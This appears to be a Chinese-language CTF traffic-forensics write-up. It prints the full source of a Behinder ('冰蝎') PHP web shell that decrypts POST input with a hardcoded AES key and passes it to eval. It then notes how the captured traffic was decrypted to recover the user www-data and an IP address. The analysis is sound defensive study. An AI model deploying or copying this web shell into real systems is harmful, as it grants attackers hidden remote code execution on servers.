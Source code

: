 ```php
<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b";
	$_SESSION['k']=$key;
	session_write_close();
	$post=file_get_contents("php://input");
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);
?>
```

题解说很明显的冰蝎shell，

知key为e45e329feb5d925b，流量采用AES CBC 128加密

![image-20240308111933750](../typora-user-images/image-20240308111933750.png)

后续也都是与1.php进行交互

导出特定分组

最后在tcp.stream eq 19 可以获取用户名

但是我不理解我找其他的AES解密都解不出来，用题解给的那个网站确实是出来了结果

{"status":"c3VjY2Vzcw==","msg":"d3d3LWRhdGEK"}

base64解密就是状态success，msg是www-data

IP地址

![image-20240308114506481](../typora-user-images/image-20240308114506481.png)

![image-20240308114512427](../typora-user-images/image-20240308114512427.png)

<img src="../typora-user-images/image-20240308114523123.png" alt="image-20240308114523123" style="zoom:50%;" />
